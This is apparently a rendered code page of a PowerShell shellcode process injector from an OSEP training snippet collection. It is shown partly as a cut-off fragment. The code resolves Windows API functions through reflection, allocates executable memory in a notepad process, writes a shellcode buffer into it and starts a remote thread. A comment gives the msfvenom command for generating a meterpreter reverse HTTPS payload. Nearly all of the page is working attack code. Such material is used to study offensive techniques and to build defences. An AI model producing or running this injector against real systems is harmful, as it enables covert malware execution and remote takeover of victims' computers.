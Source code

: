 ```powershell
    $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
    SetImplementationFlags('Runtime, Managed')

    $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
    SetImplementationFlags('Runtime, Managed')
    return $type.CreateType()
}

$procID = (Get-Process notepad).Id

# IntPtr hProcess = OpenProcess(0x001F0FFF, false, processes[0].Id);
$hProcess = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll OpenProcess), 
    (getDelegateType @([UInt32], [UInt32],[UInt32])([IntPtr]))).Invoke(0x001F0FFF, 0, $procID)

# IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
$addr = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAllocEx), 
    (getDelegateType @([IntPtr], [IntPtr], [UInt32], [UInt32],[UInt32]) ([IntPtr]))).Invoke($hProcess, [IntPtr]::Zero, 0x1000, 0x3000, 0x40)

# msfvenom -p windows/meterpreter/reverse_https LHOST=eth0 LPORT=443 EXITFUNC=thread -f ps1
[Byte[]] $buf = 0xfc,0xe8,0x8f,0x0,0x0,0x0,0x60

# WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
$procMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WriteProcessMemory),
    (getDelegateType @([IntPtr], [IntPtr], [Byte[]], [UInt32], [IntPtr]) ([Bool]))).Invoke($hProcess, $addr, $buf, [Uint32]$buf.Length,[IntPtr]::Zero)

# IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateRemoteThread),
    (getDelegateType @([IntPtr], [IntPtr], [UInt32], [IntPtr], [IntPtr], [Uint32], [IntPtr])([IntPtr]))).Invoke($hProcess, [IntPtr]::Zero, 0, $addr, [IntPtr]::Zero, 0, [IntPtr]::Zero)
```

### [**chvancooten**](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Injector/Shellcode%20Process%20Injector.ps1) **original**

```powershell
function LookupFunc {
    Param ($moduleName, $functionName)
    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
    Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null,
    @($moduleName)), $functionName))
}

function getDelegateType {
    Param (
    [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
    [Parameter(Position = 1)] [Type] $delType = [Void]
    )
    $type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
```